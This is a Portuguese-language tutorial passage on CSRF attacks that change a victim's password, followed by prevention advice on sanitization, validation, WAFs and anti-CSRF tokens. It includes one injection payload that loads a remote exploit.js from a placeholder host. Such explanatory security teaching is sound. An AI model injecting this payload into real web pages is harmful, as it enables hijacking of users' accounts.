 Um ataque CSRF comum para obter acesso privilegiado a um aplicativo da Web é criar uma carga útil de JavaScript que altera automaticamente a senha da vítima para o valor definido pelo invasor. Depois que a vítima visualizar a carga útil na página vulnerável (por exemplo, um comentário malicioso contendo a carga útil CSRF do JavaScript), o código JavaScript será executado automaticamente. Ele usaria a sessão de login da vítima para alterar sua senha. Feito isso, o invasor pode fazer login na conta da vítima e controlá-la.

O CSRF também pode ser aproveitado para atacar administradores e obter acesso às suas contas. Os administradores geralmente têm acesso a funções confidenciais, que às vezes podem ser usadas para atacar e obter controle sobre o servidor de back-end (dependendo da funcionalidade fornecida aos administradores em um determinado aplicativo da web). Seguindo esse exemplo, ao invés de usar o código JavaScript que retornaria o cookie da sessão, carregaríamos um arquivo .js (JavaScript) remoto, conforme a seguir:

```html
"><script src=//www.example.com/exploit.js></script>
```

O arquivo exploit.js conteria o código JavaScript malicioso que altera a senha do usuário. Desenvolver o exploit.js neste caso requer conhecimento do procedimento de alteração de senha e APIs deste aplicativo da web. O invasor precisaria criar um código JavaScript que replicasse a funcionalidade desejada e a executasse automaticamente (ou seja, código JavaScript que altera nossa senha para esse aplicativo da Web específico).

##### Prevention

Embora deva haver medidas no back-end para detectar e filtrar a entrada do usuário, também é sempre importante filtrar e higienizar a entrada do usuário no front-end antes que ela chegue ao back-end e, especialmente, se esse código puder ser exibido diretamente no lado do cliente sem se comunicar com o back-end. Dois controles principais devem ser aplicados ao aceitar a entrada do usuário:
- Sanitização: Remoção de caracteres especiais e não padrão da entrada do usuário antes de exibi-los ou armazená-los.
- Validation: Garantir que a entrada do usuário enviada corresponda ao formato esperado (ou seja, o e-mail enviado corresponda ao formato de e-mail)

Além disso, também é importante higienizar a saída exibida e limpar quaisquer caracteres especiais/não padrão. Caso um invasor consiga contornar os filtros de sanitização e validação de front-end e back-end, ainda não causará nenhum dano no front-end.

Depois de limpar e/ou validar a entrada do usuário e a saída exibida, devemos ser capazes de evitar ataques como HTML Injection, XSS ou CSRF. Outra solução seria implementar um firewall de aplicativo da web (WAF), que deve ajudar a evitar tentativas de injeção automaticamente. No entanto, deve-se observar que as soluções WAF podem ser potencialmente ignoradas, portanto, os desenvolvedores devem seguir as práticas recomendadas de codificação e não apenas confiar em um dispositivo para detectar/bloquear ataques.

Quanto ao CSRF, muitos navegadores modernos possuem medidas anti-CSRF integradas, que impedem a execução automática do código JavaScript. Além disso, muitos aplicativos da Web modernos têm medidas anti-CSRF, incluindo certos cabeçalhos e sinalizadores HTTP que podem impedir solicitações automatizadas (ou seja, token anti-CSRF ou http-only/X-XSS-Protection). Certas outras medidas podem ser tomadas a nível funcional, como exigir que o usuário insira sua senha antes de alterá-la. Muitas dessas medidas de segurança podem ser ignoradas e, portanto, esses tipos de vulnerabilidades ainda podem representar uma grande ameaça para os usuários de um aplicativo da web. É por isso que essas precauções devem ser consideradas apenas como uma medida secundária, e os desenvolvedores devem sempre garantir que seu código não seja vulnerável a nenhum desses ataques.

Esta folha de dicas de prevenção de falsificação de solicitação entre sites da OWASP(https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) discute as medidas de prevenção e ataque em mais detalhes.